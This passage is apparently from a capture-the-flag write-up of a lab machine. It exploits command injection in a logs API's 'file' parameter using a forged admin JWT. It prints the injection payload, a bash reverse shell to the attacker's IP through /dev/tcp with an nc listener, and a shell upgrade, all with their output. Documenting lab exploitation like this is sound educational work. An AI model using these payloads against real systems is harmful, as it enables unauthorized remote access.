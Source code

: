 

    oxdf@hacky$ curl -s -G 'http://10.10.11.120/api/logs' \
    > --data-urlencode 'file=/dev/null;id' \
    > -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" \
    > | jq -r .
    uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)



Adding `/dev/null` before the `;` is not necessary, but it makes the
`git log` command return nothing, so the output is just from my
injection.

Now I can update that to a simple Bash reverse shell (and start `nc`
listening in a new terminal):



    oxdf@hacky$ curl -s -G 'http://10.10.11.120/api/logs' --data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r .



It just hangs, but at a listening `nc` there's a shell as dasith:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.120 44874
    bash: cannot set terminal process group (1093): Inappropriate ioctl for device
    bash: no job control in this shell
    dasith@secret:~/local-web$ id
    uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)



I'll upgrade my shell with `script`:



    dasith@secret:~/local-web$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    dasith@secret:~/local-web$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    dasith@secret:~/local-web$ 



And get `user.txt`:
